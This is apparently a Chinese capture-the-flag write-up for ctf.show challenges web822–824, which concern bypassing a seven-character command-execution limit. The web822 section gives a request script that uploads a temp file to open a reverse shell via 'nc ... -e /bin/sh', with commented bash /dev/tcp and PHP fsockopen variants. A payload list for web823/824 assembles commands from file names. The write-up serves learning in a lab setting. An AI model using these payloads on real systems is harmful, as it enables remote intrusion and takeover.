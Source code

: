 ```python
def main():
    write()
    read()
if __name__=='__main__':
    main()
```

##  web822

考点：不能创建文件目录的7字符绕过

shell_exec，无回显，无法直接执行命令，同时不能创建目录，所有无法直接把数据带到本地，然后直接访问。

能不能数据外带？

但是存在7字符限制，要执行外带命令还是必须创建文件。

所以只能用创建临时文件，然后执行临时文件的方法，同时进行数据外带的方法。

直接上传文件到服务器，创建临时文件，然后马上执行`. /t*/*`

nc反弹shell才行

```php
#coding:utf-8
#author z3eyond
import requests
url="http://0009dfd0-bbbd-43b2-9a66-dac27a482d9f.challenge.ctf.show/"
#files={'file':'bash -i >& /dev/tcp/xxx/xxx 0>&1'}
files={'file':'nc  xxx 2345 -e /bin/sh'}
#files={'file':'''php -r '$sock=fsockopen("xxx",2345);exec("/bin/sh -i <&3 >&3 2>&3");' '''}
r= requests.post(url,files=files,data={'cmd':'. /t*/*'})
html = r.text
print(html)
```

##  web823，824

考点：还是一样的，限制条件

payload:

```php
payload=[
">grep",
">h",
"*>j",
"rm g*",
"rm h*",
">cat",
"*>>i",
"rm c*",
"rm j",
">cp",
"*"
]

```

